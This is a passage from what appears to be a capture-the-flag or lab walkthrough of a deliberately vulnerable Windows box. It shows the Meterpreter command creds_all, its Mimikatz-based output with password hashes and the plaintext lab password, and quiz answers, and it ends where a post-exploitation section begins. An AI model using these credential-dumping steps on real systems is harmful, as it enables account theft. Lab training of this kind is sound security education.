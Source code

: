 Which command allows up to retrieve all credentials?

creds_all

Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

Password01!

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## Post-Exploitation
Explore post-exploitation actions we can take on Windows.

Before we start our post-exploitation, let's revisit the help menu one last time in the meterpreter shell. We'll answer the following questions using that menu.
